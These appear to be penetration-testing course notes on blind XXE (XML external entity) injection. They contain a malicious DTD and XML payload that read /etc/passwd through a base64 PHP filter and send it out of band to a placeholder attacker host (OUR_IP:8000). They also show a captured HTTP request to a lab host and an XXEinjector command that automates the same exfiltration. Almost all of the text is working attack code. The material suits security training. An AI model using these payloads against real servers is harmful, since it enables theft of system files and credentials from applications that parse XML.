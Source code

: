 ## Blind Data Exfiltration

Our dtd File
````
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
````
````
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
````


## Automated OOB Exfiltration

One such tool is XXEinjector. This tool supports most of the tricks we learned in this module, including basic XXE, CDATA source exfiltration, error-based XXE, and blind OOB XXE.

````
$ git clone https://github.com/enjoiz/XXEinjector.git
-----------------------------------------------------------------
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
-----------------------------------------------------------------
$ ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
````

